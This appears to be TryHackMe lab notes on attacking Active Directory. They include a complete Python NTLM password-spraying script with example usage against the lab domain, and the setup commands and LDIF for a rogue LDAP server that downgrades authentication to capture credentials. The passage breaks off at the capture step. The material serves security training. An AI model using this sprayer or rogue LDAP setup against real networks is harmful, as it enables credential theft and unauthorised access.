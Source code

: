 # Compromising Active Directory

# Breaching Active Directory
## NTLM and NetNTLM
New Technology LAN Manager (NTLM) is the suite of security protocols used to authenticate users' identities in AD. NTLM can be used for authentication by using a challenge-response-based scheme called NetNTLM.   
<img src="https://github.com/nkn-ctrl/TryHackMe/assets/73976100/e39c9f95-dbec-484c-a3f2-6cd244c93fdd" width=600>

### Brute-force Login Attacks  
**Password Spraying**  
<details>
<summary>ntlm_passwordspray.py</summary>  

```
#!/usr/bin/python3

import requests
from requests_ntlm import HttpNtlmAuth
import sys, getopt

class NTLMSprayer:
    def __init__(self, fqdn):
        self.HTTP_AUTH_FAILED_CODE = 401
        self.HTTP_AUTH_SUCCEED_CODE = 200
        self.verbose = True
        self.fqdn = fqdn

    def load_users(self, userfile):
        self.users = []
        lines = open(userfile, 'r').readlines()
        for line in lines:
            self.users.append(line.replace("\r", "").replace("\n", ""))

    def password_spray(self, password, url):
        print ("[*] Starting passwords spray attack using the following password: " + password)
        count = 0
        for user in self.users:
            response = requests.get(url, auth=HttpNtlmAuth(self.fqdn + "\\" + user, password))
            if (response.status_code == self.HTTP_AUTH_SUCCEED_CODE):
                print ("[+] Valid credential pair found! Username: " + user + " Password: " + password)
                count += 1
                continue
            if (self.verbose):
                if (response.status_code == self.HTTP_AUTH_FAILED_CODE):
                    print ("[-] Failed login with Username: " + user)
        print ("[*] Password spray attack completed, " + str(count) + " valid credential pairs found")

def main(argv):
    userfile = ''
    fqdn = ''
    password = ''
    attackurl = ''

    try:
        opts, args = getopt.getopt(argv, "hu:f:p:a:", ["userfile=", "fqdn=", "password=", "attackurl="])
    except getopt.GetoptError:
        print ("ntlm_passwordspray.py -u <userfile> -f <fqdn> -p <password> -a <attackurl>")
        sys.exit(2)

    for opt, arg in opts:
        if opt == '-h':
            print ("ntlm_passwordspray.py -u <userfile> -f <fqdn> -p <password> -a <attackurl>")
            sys.exit()
        elif opt in ("-u", "--userfile"):
            userfile = str(arg)
        elif opt in ("-f", "--fqdn"):
            fqdn = str(arg)
        elif opt in ("-p", "--password"):
            password = str(arg)
        elif opt in ("-a", "--attackurl"):
            attackurl = str(arg)

    if (len(userfile) > 0 and len(fqdn) > 0 and len(password) > 0 and len(attackurl) > 0):
        #Start attack
        sprayer = NTLMSprayer(fqdn)
        sprayer.load_users(userfile)
        sprayer.password_spray(password, attackurl)
        sys.exit()
    else:
        print ("ntlm_passwordspray.py -u <userfile> -f <fqdn> -p <password> -a <attackurl>")
        sys.exit(2)



if __name__ == "__main__":
    main(sys.argv[1:])
```

</details>  

```
python ntlm_passwordspray.py -u <userfile> -f <fqdn> -p <password> -a <attackurl>  
# <userfile> - Textfile containing our usernames - "usernames.txt"
# <fqdn> - Fully qualified domain name associated with the organisation that we # are attacking - "za.tryhackme.com"
# <password> - The password we want to use for our spraying attack - "Changeme123"
# <attackurl> - The URL of the application that supports Windows Authentication - "http://ntlmauth.za.tryhackme.com"
```

## LDAP
Another method of AD authentication that applications can use is Lightweight Directory Access Protocol (LDAP) authentication. With LDAP authentication, the application directly verifies the user's credentials.  
<img src="https://github.com/nkn-ctrl/TryHackMe/assets/73976100/a241a94c-c3d2-446b-b43f-c8330fcc6e25" width=800>  

### LDAP Pass-back Attacks
This is a common attack against network devices, such as printers, when you have gained initial access to the internal network, such as plugging in a rogue device in a boardroom.  
1. Hosting a Rogue LDAP Server  
`sudo apt-get update && sudo apt-get -y install slapd ldap-utils && sudo systemctl enable slapd`  
`sudo dpkg-reconfigure -p low slapd`  
Before using the rogue LDAP server, we need to make it vulnerable by downgrading the supported authentication mechanisms. We want to ensure that our LDAP server only supports PLAIN and LOGIN authentication methods.  
we need to create a new ldif file.  
```
#olcSaslSecProps.ldif
dn: cn=config
replace: olcSaslSecProps
olcSaslSecProps: noanonymous,minssf=0,passcred
```  
`sudo ldapmodify -Y EXTERNAL -H ldapi:// -f ./olcSaslSecProps.ldif && sudo service slapd restart`  
2. Capturing LDAP Credentials  
